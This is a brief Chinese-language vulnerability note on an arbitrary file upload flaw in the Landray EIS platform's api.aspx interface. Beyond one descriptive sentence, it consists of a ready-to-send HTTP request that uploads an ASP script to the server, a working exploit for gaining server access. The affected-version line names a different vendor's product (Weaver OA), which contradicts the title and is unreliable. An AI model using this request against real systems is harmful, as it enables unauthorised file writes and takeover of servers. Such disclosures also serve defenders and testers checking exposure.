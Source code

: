 **漏洞描述：**

蓝凌EIS 智慧协同平台api.aspx接口存在任意文件上传漏洞，攻击者可以利用接口写入文件，获取服务器权限。

**影响版本：**

泛微OA

**Payload：**

```jsx
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10

Content-Length: 172

Content-Type: multipart/form-data; boundary=---***

Accept-Encoding: gzip, deflate, br

Connection: close

-----***
Content-Disposition: form-data; name="file"; filename="test.asp"
Content-Type: text/html

<% response.write("W8jwFQz7zkxLxXaUXp2BTB0O3rSSvnqb")%>
-----***--
```

---
